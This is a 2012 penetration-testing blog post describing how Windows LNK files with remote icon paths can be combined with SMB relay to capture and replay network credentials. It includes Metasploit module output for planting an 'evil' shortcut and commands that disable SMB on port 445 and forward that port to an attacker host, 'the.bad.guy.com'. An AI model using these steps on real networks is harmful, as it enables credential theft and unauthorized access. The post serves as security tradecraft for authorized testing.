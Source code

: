 ---
author: mubix
comments: true
date: 2012-02-11 08:29:37+00:00
layout: post
title: MS08_068 + MS10_046 = FUN UNTIL 2018
categories:
- lnk
- metasploit
- smbrelay
---

****TL;DR:**** SMB Relay + LNK UNC icons = internal pentest pwnage

I need to touch on the highlights of two vulnerabilities before we talk about the fun stuff, but I highly encourage you to read the references at the bottom of this post and understand the vulnerabilities after you are done with my little trick, as you might find one of your own.

**MS08_068:** [http://www.cvedetails.com/cve/CVE-2008-4037/](http://www.cvedetails.com/cve/CVE-2008-4037/)

In 2008, Microsoft released MS08_068 which patched the "SMB Relay" attack. To boil this down, an attacker gets a victim to attempt to authenticate to an attacker controlled box. The attack delays its responses to the victim and replays the important parts of the authentication that the victim sent back at the victim. You can find out a lot more about this vulnerability here: [https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay](https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay)

One thing to take away from that post is that the patch stops Attacker <=> Victim, but does not / cannot fix Victim <=> Attacker <=> **Victim2** (use authentication from Victim to replay to Victim2)

**MS10_046:** [http://www.cvedetails.com/cve/CVE-2010-2568/](http://www.cvedetails.com/cve/CVE-2010-2568/)

In 2010, Microsoft released MS10_046 which patched the Stuxnet LNK vulnerability where a malicious DLL could be loaded (locally or remotely over WebDAV) using the path of the shortcut's icon reference. LNK files are Windows shortcut files that allow the icons of the files to be changed much more dynamically than any other file type (Right click a shortcut, go to Properties, and just simply click the 'Change Icon' button). I could certainly be wrong here, but I believe all Microsoft patched was the ability to use this feature to load the DLLs via a certain Control Panel object. Which leaves the ability to load shortcut (LNK) icons from wherever we wish. ;-)

**The Setup:**

If you are on an internal penetration test and either exploit a machine or find an open share, you can create an LNK file with an icon that points at a nonexistent share on your attacking machine's IP and use SMB_Relay to replay those credentials to a system in which we've identified by one means or another as an 'important' host to get on.

Attacker uploads malicious LNK file to network share on **FILE SHARE**

Victim views it on **WORKSTATION** that initiates an connection to **ATTACKER**

Attacker relays those authentication attempts to **FILE SHARE**, gaining code execution if 'Victim' is an admin on **FILE SHARE**

If not, then NetNTLM are still visible in the logs and can be attempted to crack, or just wait for more people to view the LNK file on the public share, and hope that an admin comes by at some point.

Your mileage will vary based on where you put the LNK file.

**The Video:**

<center><iframe align=center width="560" height="315" src="//www.youtube.com/embed/FxekUPY5ojU" frameborder="0" allowfullscreen></iframe></center>

I have created a post module to automate the process of creating and uploading the LNK file (so you don't have to have a Windows box lying around). Here it is in action:

```
Module options (post/windows/escalate/droplnk):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ICONFILENAME  icon.png         yes       File name on LHOST's share
   LHOST         192.168.2.16     yes       Host listening for incoming SMB/WebDAV traffic
   LNKFILENAME   Words.lnk        yes       Shortcut's filename
   SESSION       1                yes       The session to run this module on.
   SHARENAME     share1           yes       Share name on LHOST

2012-02-11 07:17:19 +0000 2 1 post(droplnk) > run

[*] Creating evil LNK
[*] Done. Writing to disk - C:\DocuMe~1\Administrator\Words.lnk
[*] Done. Wait for evil to happen..
[*] Post module execution completed
```

You can find the code here:

[https://github.com/mubix/Not-In-Pentesting-Class/blob/master/modules/post/mubix/droplnk.rb](https://github.com/mubix/Not-In-Pentesting-Class/blob/master/modules/post/mubix/droplnk.rb)

**Going forward:**

Obviously this isn't so effective remotely out of the box and there currently isn't a SMB_Relay for WebDAV (although I'm guessing that would work). However I was able to construct a crude way getting smb_relaying working using some pretty loud system changes to an exploited host:

* **Step 1**: Disable SMB on Port 445 (it will still operate on 139 as it is a failover), this setting requires a reboot to take effect and can be done using the following command:    
  * `reg add HKLM\System\CurrentControlSet\Services\NetBTParameters /v SMBDeviceEnabled /t REG_DWORD /d 0`
* **Step 2**: Port forward the traffic out to your remote attacker host over a port that is allowed out, used 80:
  * `netsh int portproxy v4tov4 listenport=445 connectaddress=the.bad.guy.com connectport=80`
* **Step 3**: Set up SMB_Relay listening on that port on your attacker with a route in meterpreter to send all relayed authentication through your meterpreter session into and at the targeted host. 

These steps can get you noticed in almost every way, so it's not recommended, I just did it as a PoC. I mean how cool is it to remotely exploit SMB vulns ;-)

The other thing is, administrators are becoming much more rare as years move along and people use lower priv users for their daily tasks, so there are currently feature requests in to the Metasploit project to make it so when you get SMB_Relay correctly forwarding good credentials, even if they aren't admin and you cannot get code execution it would be nice to be able to go through the files that person has access to on the targeted system / file share. A final pipe dream of this post is to have a multi-threaded smb_relay that 2, 3 or even 10 servers can be targeted with the relayed authentication.

just saying'…. /me nudges the Metasploit devs…

### References:

#### SMB_Relay References:

* "Initial?" release in 2003 - [http://www.xfocus.net/articles/200305/smbrelay.html](http://www.xfocus.net/articles/200305/smbrelay.html)
* Microsoft advisory - [http://technet.microsoft.com/en-us/security/bulletin/ms08-068](http://technet.microsoft.com/en-us/security/bulletin/ms08-068)
* Metasploit blog post - [https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay](https://community.rapid7.com/community/solutions/metasploit/blog/2008/11/11/ms08-068-metasploit-and-smb-relay)
* Metasploit module - [http://www.metasploit.com/modules/exploit/windows/smb/smb_relay](http://www.metasploit.com/modules/exploit/windows/smb/smb_relay)

#### LNK DLL Loader References:

* Microsoft advisory - [http://technet.microsoft.com/en-us/security/advisory/2286198](http://technet.microsoft.com/en-us/security/advisory/2286198)
* Metasploit blog post - [https://community.rapid7.com/community/infosec/blog/2010/08/05/ms10-046-a-rude-awakening](https://community.rapid7.com/community/infosec/blog/2010/08/05/ms10-046-a-rude-awakening)
* Some of HDM's research - [https://community.rapid7.com/community/solutions/metasploit/blog/2010/08/22/exploiting-dll-hijacking-flaws](https://community.rapid7.com/community/solutions/metasploit/blog/2010/08/22/exploiting-dll-hijacking-flaws)
* ISS's advisory - [http://blogs.iss.net/archive/remotedllpreloadingv.html](http://blogs.iss.net/archive/remotedllpreloadingv.html)
* Metasploit module - [http://www.metasploit.com/modules/exploit/windows/browser/ms10_046_shortcut_icon_dllloader](http://www.metasploit.com/modules/exploit/windows/browser/ms10_046_shortcut_icon_dllloader)
* Video of the module in action - [http://www.commonexploits.com/?p=151](http://www.commonexploits.com/?p=151)
